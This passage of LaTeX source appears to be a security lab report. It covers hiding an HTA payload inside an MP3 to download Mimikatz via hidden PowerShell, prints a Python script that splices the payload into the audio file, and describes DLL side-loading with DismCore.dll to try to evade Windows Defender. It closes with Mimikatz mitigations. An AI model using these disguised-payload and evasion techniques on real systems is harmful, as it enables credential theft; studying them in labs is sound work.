	
\includegraphics[scale=0.20]{images/payload.png}
	\centering
	\caption{Showing the payload in the mp3 file}
\end{figure}\abc
This payload simply runs a PowerShell command in a hidden and non-interactive window that downloads Mimikatz and saves it as \texttt{msedge\_installer.zip} to appear less suspicious. The command is invoked using a Shell object with the \texttt{WScript.Shell} component to allow running the command with \texttt{0} (hiding the window) and \texttt{False} (running it as a synchronous process in the background). This payload is not obfuscated, as that would be overkill for this exercise and would hardly provide any benefits, other than making troubleshooting infinitely more difficult. I also experimented with using the \texttt{Invoke-Mimikatz} script, base64 encoding the script or the zip, as well as hardcoding an \texttt{AES} encrypted binary that prompts for input when I run the MP3 file with \texttt{mshta}. However, I couldn’t get all of these options to work or reached a point where making them work would have required significant time, which I didn't have available. Moreover, it would have been beyond the scope of the exercise. That said, it's definitely a concept I should revisit, combining it with other methods, such as an integrated \texttt{AMSI} patcher to circumvent Windows Defender, which I had to disable to run Mimikatz. \cite{noauthor_amsi_nodate} \newpage \abc
To insert my payload into an MP3 file, I wrote the following simple Python script, which inserts my payload at a random location, roughly in the middle of the target file, and saves it as a new file:
\begin{lstlisting}[language=python]
import random

def insert_file(target_path, payload_path, output_path):
    try:
	# reading the target file
        with open(target_path, 'rb') as target_file:
            target_content = target_file.read()

	# reading the payload file
        with open(payload_path, 'rb') as payload_content:
            payload = payload_content.read()

        target_size = len(target_content)

        if target_size == 0:
            print("Error: Target file is empty.")
            return

	# getting the middle of the file
        middle_index = target_size // 2
	# getting rage for the random offset
        random_offset_range = target_size // 4
	# getting the radom offset
        random_offset = random.randint(-random_offset_range,
                                       random_offset_range)

	# calcuating the insertion point
        insertion_point = max(
            0, min(target_size, middle_index + random_offset))
	# inserting the payload into the binary
        new_content = target_content[:insertion_point] + \
            payload + target_content[insertion_point:]

	# writing the data to a new file
        with open(output_path, 'wb') as output_file:
            output_file.write(new_content)

        print(f"File '{payload_path}' inserted at position {
              insertion_point} in '{target_path}' and saved as '{output_path}'.")

    except FileNotFoundError:
        print("Error: One or both of the input files were not found.")
    except Exception as e:
        print(f"An error occurred: {e}")

if __name__ == "__main__":
    target_mp3 = "./The_link_orginal.mp3"
    file_to_insert = "payload.hta"
    output_mp3 = "./The_link.mp3"

    insert_file(target_mp3, file_to_insert, output_mp3)
\end{lstlisting}\newpage \abc
Figures 31 to 33 show the properties of the edited file, as well as its ability to be played back, and demonstrate the execution of the file via \texttt{mshta} on the target user through \texttt{RDP}, which I used to simply drag and drop the file onto the target.
\begin{figure}[ht]
	
\includegraphics[scale=0.35]{images/link_properties.png}
	\centering
	\caption{Showing the properties of the mp3 file}
\end{figure}
\begin{figure}[h]
	
\includegraphics[scale=0.25]{images/listentiogn to the mp3 file.png}
	\centering
	\caption{Listening to the mp3 file}
\end{figure}
\begin{figure}[h]
	
\includegraphics[scale=0.30]{images/exepayload.png}
	\centering
	\caption{Executing the payload inside the mp3 file}
\end{figure}\newpage\abc
The ZIP file can now be extracted, and Mimikatz can be executed. However, since the user has virtually no permissions—and Mimikatz requires elevated privileges to carry out its attacks or generate tickets—it had no practical use in this scenario. Mimikatz cannot escalate privileges on its own in a non-Active Directory environment without valid tickets. Figure 34 shows the result of running the \texttt{privilege::debug} command in Mimikatz, which returns an error indicating that the necessary permissions are missing to attach a debugger to any process or to the kernel. \cite{a_cyberkid_detailed_2024}
\begin{figure}[h]
	
\includegraphics[scale=0.60]{images/sadgemimikatz.png}
	\centering
	\caption{Running \texttt{privilege::debug} in mimikatz}
\end{figure}\abc \newpage
\subsubsection{DLL Side-Loading to attempting to Bypass Windows Defender}
DLL sideloading is a technique in which a built-in Windows binary is copied to a different path, and a custom-compiled DLL is placed in the same directory, hoping that the binary will load the malicious DLL instead of the intended one. To find such vulnerable binaries, there is a website called \url{https://hijacklibs.net/}, which allows filtering DLLs by vendor and provides detection rules for each specific DLL. I chose \texttt{DismCore.dll}, as it is a popular choice. This attack can be used post-exploitation for tasks such as privilege escalation or persistence. \cite{dll-sideloading, beukema_dismcoredll_2023, john_hammond_are_2025}\abc
To sideload a DLL, you simply copy the listed executable from the site to a different directory and place your compiled DLL in the location where the binary expects it.\abc
To create your own DLL, you need the Microsoft x64 Native Developer Tools, which can be easily installed by installing Visual Studio along with the Windows Apps workload. You can then write the code for you DLL and compile it using either \texttt{clang} or \texttt{gcc}. I used the following command to compile mine:
\begin{lstlisting}
cl /LD DismCore.c user32.lib 
\end{lstlisting}
This command uses the \texttt{cl} compiler (not \texttt{clang}, despite the earlier mention), with the \texttt{/LD} flag to generate a DLL instead of an executable. \texttt{DismCore.c} is the name of my source file, and \texttt{user32.lib} is a library I imported to enable certain Windows API functionality. \cite{john_hammond_are_2025}\abc
I tried bundling Mimikatz into the DLL and sideloading it via a built-in Windows executable in an attempt to bypass Windows Defender. I assumed that DLLs loaded by trusted Windows executables might be excluded from scanning—but unsurprisingly, I was wrong, and it was detected anyway. My approach was relatively basic: I simply called \texttt{system()} on a PowerShell command to invoke Mimikatz. Embedding parts of the binary into variables and assembling them into full files wasn’t feasible for me, as I’m not a C developer and was just trying DLL sideloading for the first time.\abc
Figure 35 shows a message box opening when \texttt{dism.exe} is executed, and Figure 36 shows the PowerShell script being blocked by Windows Defender. The code I used can be found in the ZIP file submitted with this document. I won’t explain the code further, as I’m not a C developer.
\begin{figure}[h]
	
\includegraphics[scale=0.30]{images/dll-1.png}
	\centering
	\caption{Opening a Messagebox with the dll}
\end{figure}
\begin{figure}[h]
	
\includegraphics[scale=0.25]{images/dll-2.png}
	\centering
	\caption{Trying to run the script via the dll}
\end{figure}

\subsubsection{How to Detect and Block Mimikatz}
There are a multitude of ways to prevent Mimikatz, most of which come down to restricting access. For example, configuring the "Debug Program" policy to be accessible only to local administrators—which is the default on Windows Server—helps limit abuse. Disabling outdated protocols such as \texttt{WDigest}, which stores plaintext passwords in the \texttt{LSASS} (Local Security Authority Subsystem Service), is another effective measure. However, this protocol has already been disabled by default since Windows 8.1, Windows 10, and Windows Server 2012 R2. While there are many additional configurations available, most of them have already become default settings. Enforcing strong password policies and limiting privileges for standard users already blocks many of Mimikatz’s core features, as they rely on insecure configurations that are mitigated by standard security best practices. \cite{prevent-mimikatz}


\newpage
\section{References}
\bibliography{IEEEabrv,zotero}
\newpage
\section{List of figures}

\listoffigures

\end{document}
